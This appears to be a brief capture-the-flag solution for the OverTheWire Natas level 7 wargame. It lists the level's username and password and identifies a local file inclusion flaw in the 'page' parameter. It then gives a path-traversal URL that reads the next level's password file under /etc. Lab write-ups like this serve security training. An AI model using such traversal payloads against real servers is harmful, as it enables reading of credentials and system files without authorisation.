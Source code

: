# Username
natas7
# Password
bmg8SvU1LizuWjx3y7xkNERkHxGre0GS
# Web vulnerability
Local file inclusion through the `page` URL parameter
# Method of solve
Access the password on the webserver by providing the following file path:
http://natas7.natas.labs.overthewire.org/index.php?page=../../../../../../etc/natas_webpass/natas8
